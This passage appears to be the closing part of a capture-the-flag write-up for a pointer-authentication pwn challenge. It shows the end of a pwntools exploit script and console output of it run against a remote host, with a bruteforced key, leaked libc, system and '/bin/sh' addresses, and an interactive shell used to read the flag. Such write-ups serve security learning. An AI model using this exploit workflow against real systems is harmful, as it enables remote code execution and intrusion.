 ```python
    io.send(payload)

    io.interactive()

if __name__ == "__main__":
    io = remote(remote_ip, port)
    poc(io)
    pwn(io)
```

## Flag

```console
d4rk_kn1gh7 @ BatMobile  python exp.py
[+] Opening connection to 52.255.184.147 on port 8080: Done
[+] MBruteforcing: Found key: "t5iG"
[*] Libc base -> 0x4000838000
[*] System -> 0x4000878400
[*] Binsh -> 0x400095ecc0
[*] Switching to interactive mode
$ cat flag
*CTF{n0w_y0u_kn0w_p01nter_authent1cat10n}
```